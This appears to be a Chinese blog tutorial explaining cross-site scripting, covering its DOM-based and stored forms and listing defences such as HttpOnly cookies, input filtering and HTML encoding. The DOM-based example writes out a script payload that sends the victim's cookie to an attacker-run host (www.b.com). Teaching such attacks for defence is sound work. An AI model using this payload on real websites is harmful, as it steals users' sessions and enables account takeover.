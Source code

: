 # XSS简介

## 什么是XSS

引用wiki上的一段：

>   跨站脚本（Cross-site scripting，通常简称为XSS）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了HTML以及用户端脚本语言。
>
>   XSS攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java，VBScript，ActiveX，Flash或者甚至是普通的HTML。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。

### 攻击手段和目的

攻击者使被攻击者在浏览器中执行脚本后，如果需要收集来自被攻击者的数据（如cookie或其他敏感信息），可以自行架设一个网站，让被攻击者通过JavaScript等方式把收集好的数据作为参数提交，随后以数据库等形式记录在攻击者自己的服务器上。

常用的**XSS**攻击手段和目的有：

-   盗用cookie，获取敏感信息。
-   利用植入Flash，通过[crossdomain](https://zh.wikipedia.org/w/index.php?title=Crossdomain&action=edit&redlink=1)权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
-   利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发[微博](https://zh.wikipedia.org/wiki/%E5%BE%AE%E5%8D%9A)、加好友、发私信等操作。
-   利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
-   在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现[DDoS](https://zh.wikipedia.org/wiki/DDoS)攻击的效果。

### 过滤字符串

XSS也是一种很常见的攻击手段，所以很多语言都有一套过滤HTML语言的机制，比如：

-   PHP的htmlentities()或是htmlspecialchars()。
-   Python的cgi.escape()
-   Java的xssprotect

## XSS漏洞

XSS漏洞分为两种，一种是DOM Based XSS漏洞，另一种是Stored XSS漏洞。

理论上，**所有可输入的地方**没有对输入数据进行处理的话，都会存在XSS漏洞，漏洞的危害取决于攻击代码的威力

这样说没啥概念，那就通过几个栗子来说明一下吧

## DOM Based XSS

>   DOM Based XSS是一种基于网页DOM结构的攻击，该攻击特点是中招的人是少数人。

假设当我登录a.com后，我发现它的页面某些内容是根据url中的一个叫content参数**直接显示的**；就是说后台程序会把content参数的内容加载到返回的HTML页面上

我知道了Tom也注册了该网站，并且知道了他的邮箱(或者其它能接收信息的联系方式)，我做一个超链接发给他，超链接地址为：
`http://www.a.com?content=<script>window.open(“www.b.com?param=”+document.cookie)</script>`
当Tom点击这个链接的时候(假设他已经登录a.com)，a网站就会加载后面的JS代码，那么浏览器就会直接打开b.com，并且把Tom在a.com中的cookie信息发送到b.com，b.com是我搭建的网站，当我的网站接收到该信息时，我就盗取了Tom在a.com的cookie信息，cookie信息中可能存有登录密码，攻击成功！

当然用户提交的数据还可以通过QueryString(放在URL中)或者Cookie发送给服务器

## Stored XSS

>   Stored XSS是存储式XSS漏洞，由于其攻击代码已经存储到服务器上或者数据库中，所以访问该页面的用户都有信息泄漏的风险，受害者是很多人。

Alex发现了网站A上有一个XSS 漏洞，该漏洞允许将攻击代码保存在数据库中，Alex发布了一篇文章，文章中嵌入了恶意JavaScript代码，比如就是上面的那一句JS代码。

其他人如Monica访问这片文章的时候，嵌入在文章中的恶意Javascript代码就会在浏览器中执行，其会话cookie或者其他信息将被Alex盗走。

## 如何防御

XSS攻击的原因大多数是因为太相信用户的输入，所以防御一句话概况就是：

>   永远不相信用户的输入。需要对用户的输入进行处理，只允许输入合法的值，其它值一概过滤掉。

上面也说过过滤字符串的一些库了，就是把特殊字符进行转义，但是...

攻击代码不一定在`<script></script>`中，常用的防御方式一般这样做：

1.  将重要的cookie标记为http only,   这样的话Javascript 中的`document.cookie`语句就不能获取到cookie了.
2.  只允许用户输入我们期望的数据。 例如：年龄的textbox中，只允许用户输入数字。 而数字之外的字符都过滤掉。
3.  对数据进行Html Encode 处理
4.  过滤或移除特殊的Html标签， 例如:` <script>, <iframe> `,  `< for <`, `> for >`, `&quot for`
5.  过滤JavaScript 事件的标签。例如 "onclick=", "onfocus" 等等。
6.  最重要的是，千万不要引入任何不可信的第三方JavaScript到页面里

现在也有很多工具可以进行自动化XSS测试，非常方便，但是就算是有XSS过滤器帮你做过滤，产生XSS漏洞的风险还是很高

是因为HTML里有太多的地方容易形成XSS漏洞，而且形成漏洞的原因又有差别，比如有些漏洞发生在**HTML标签**里，有些发生在**HTML标签的属性**里，还有的发生在页面的`<Script>`里，甚至有些还出现在**CSS**里，再加上不同的浏览器对页面的解析或多或少有些不同，使得有些漏洞只在特定浏览器里才会产生。

上面的对付基本的XSS攻击还有效果，如果是高级的XSS攻击.....这个不在我研究的范围内，哈哈

下次要不要了解下CSRF(跨站请求伪造)攻击呢...貌似还一个比较厉害的代码注入攻击(PHP注入，SQL注入，Shell注入等)

待续...